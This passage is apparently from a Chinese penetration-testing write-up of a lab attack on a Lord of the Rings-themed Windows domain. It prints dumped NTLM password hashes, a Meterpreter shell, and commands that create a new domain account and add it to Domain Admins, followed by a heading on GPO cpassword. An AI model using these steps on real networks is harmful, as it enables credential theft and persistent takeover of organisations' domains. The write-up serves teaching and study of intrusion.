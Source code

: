 ```
Frodo:"what do i have" 
Samwise:"Frodo" 
Stryder:"love" 
Legolas:"favorite saying" 
Gimli:"what am i" 
Boromir:"what I am" 
Gandalf:"moria"

[*] Dumping password hashes... 
Administrator:500:f75d090d8564fd334a3b108f3fa6cb6d:3019d5d61cdf713c7b677efefc22f0e5::: 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
HelpAssistant:1000:7e8a50750d9a1a30d3d4a83f88ea86ab:6fba9c0f469be01bab209ee2785a818d::: 
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:861165412001ece0a5e73ab8863129d8::: 
Frodo:1003:74052b0fb3d802a3be4db4ed34a95891:a7cee25799f518f9bd886683a13ed6d0::: 
Samwise:1004:aad3b435b51404eeaad3b435b51404ee:7dff81410af5e2d0c2b6e54a98a8f622::: 
Stryder:1005:825f8bc99c2a5013e72c57ef50f76a05:1047f0b952cfbffbdd6c34ef6bd610e5::: 
Legolas:1006:625d787db20f1dd8aad3b435b51404ee:cc5b9f225e569fa3a2534be394df531a::: 
Gimli:1007:aad3b435b51404eeaad3b435b51404ee:e4d2534368ff0f1cbe2a42c5d79b9818::: 
Boromir:1008:e3bee25ac9de68cec2cc282901fd62d9:4231db4c15025d1951f3c0d39d8656a2::: 
Gandalf:1009:20ef2c7725e35c1dbd7cfc62789a58c8:02d0a4d2b6c7d485a935778eb90e0446:::

meterpreter > shell 
Process 2708 created. 
Channel 1 created. 
Microsoft Windows XP [Version 5.1.2600] 
(C) Copyright 1985-2001 Microsoft Corp. 

C:\ WINDOWS\system32>whoami 
whoami 
MIRKWOOD\Gandalf

C:\WINDOWS\system32>net user twadmin $piD3rsRul3! /add /domain 
The request will be processed at a domain controller for domain MIRKWOOD.

The command completed successfully.

C:\WINDOWS\system32>net group "Domain Admins" twadmin /add /domain 
net group "Domain Admins" twadmin /add /domain 
The request will be processed at a domain controller for domain MIRKWOOD.

The command completed successfully. 
```

## 4\. GPO cpassword

* * *

这个原理完全可以看瞌睡龙牛翻译的[`drops.wooyun.org/papers/576`](http://drops.wooyun.org/papers/576),本文中亮点是他从 LINUX 连接到 WIN 的,有许多同学不会通过 linux 渗透 WIN 域,尤其是在得到一个 WEBSHELL,还是 ROOT 权限,还是跟内网连着,还有个域用户的情况下(=.=现实中哪儿有这么多好的条件让你都碰到了)
